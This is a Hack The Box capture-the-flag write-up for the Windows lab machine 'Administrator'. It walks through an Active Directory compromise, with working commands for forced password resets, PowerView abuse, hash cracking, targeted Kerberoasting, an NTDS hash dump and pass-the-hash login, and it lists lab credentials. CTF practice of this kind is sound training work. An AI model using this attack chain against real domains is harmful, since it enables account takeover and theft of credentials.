{HackTheBox_Machine_WriteUp}

---

| Machine Name | Administrator |
| ------------ | ------------- |
| OS           | Windows       |
| Difficulty   |               |
| IP Address   | 10.129.11.227 |
| Release Date | 9 Nov 2024    |
| Pwned Date   | 9 June 2026   |

---

#### Table of Contents 

##### 1. Executive Summary
##### 2. Reconnaissance
   ###### 2.1  Port Scanning
##### 3. Initial Access 
##### 4. Lateral Movement 
##### 5. Privilege Escalation

##### 6. Proof's
##### 7. References


---

#### 1. Executive Summary

This report documents the penetration testing process of the "Administrator machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root). We have default credentials Username: Olivia Password: ichliebedich . 

This machine has multiple active directory mis-configuration in it.WE have to just exploit them and we will get the shell as Administrator on server.


---

#### 2. Reconnaissance

##### 2.1. Port Scanning

```
sudo nmap -sC- -sV -p- 10.129.11.227 --min-rate 5000 -oN nmap_scan
```

Open Port's : 21,53,88,135,139,389,445,593,636,3268,5985,9389,47001,49664,49665,49666,49667,60076,60081,60089,60106,60106 .

---

#### 3. Initial Access

```
bloodhound-python -u 'Olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.11.227 -c All
```

The bloodhound data gave us information that, user olivia has a GenericWrite permission over michael.

```
### GenericWrite Permission Abuse

generic write permission gives us ability to perform three type of attack for gaining access of user.

1. Targeted Kerberoast
2. Force Change Password
3. Shadows Credentials
```

We are using Force Change Password from windows shell on user olivia.

```
net user michael Pass@123 /domain
```

**Password changed Successfully .** 

---

#### 4. Lateral Movement

For User Benjamin we have force password change permission so we change the password for benjamin user as we now have access to user michael.

```
### We have to user PoerView.ps1 for this.

Import-Module C:\Users\michael\Desktop\Powerview.ps1

./PowerView.ps1

$SecPassword = ConvertTo-SecureString 'Pass@123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('Administrator\michael', $SecPassword)

$UserPassword = ConvertTo-SecureString 'koham@123' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred

```

We have now credentials for user 'benjamin'. I have checked that benjamin user can't have access to winrm,but have access to smb,ldap and ftp.

So in this case we will try FTP connection first.

```
ftp benjamin@10.129.11.227
```

I have found the backup.psafe3 file on ftp. 

Downloaded that file on my machine for further testing.
hashcat example hashes reveal that psafe3 need -m 5200 to cracking.

```
hashcat -m 5200 backup.psafe3 /usr/share/wordlist/rockyou.txt
```
Found Password for backup.psafe3 .

We use that password to open the database and found three users and their passwords.

```
### checking that user and password against smb.

nxc smb 10.129.11.277 -u user.list -p password.list
```

It gives us password for user 'emily'.

User.txt flag is on emily user's desktop.

**Foothold gained for User.txt file.**

---

#### 5. Privilege Escalation

Now we have acces to user emily,we check bloodhound data and it reveal's that emily has GenericWrite permission over 'ethan' and 'ethan' has GetChnagesAll permission over ADMINISTRATOR.HTB group.

We will abuse this permission to get shell ass Administrator user.

```

python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

This will give's us kerberos ticket.We have to crack that ticket with hashcat.

```
hashcat -m 13100 hash /usr/share/wordlist/rockyou.txt
```

HashCat will handover the password for ethan.

Now we will use the GetChangesAll permission to dump hashes from server.

```
nxc smb 10.129.11.227 -u ethan -p 'limpbizkit' --ntds
```

We have got the hash for Administrator.

```
### Pass-The-Hash technique will get use here.

evil-winrm -i 10.129.11.227 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

```


**Root.txt Obtained.**

---

#### 6. Proof's



























---

#### 7. References

https://hashcat.net/wiki/doku.php?id=example_hashes
https://github.com/pwsafe/pwsafe/releases?q=non-windows&expanded=true

---

{HackTheBox_Machine_WriteUp}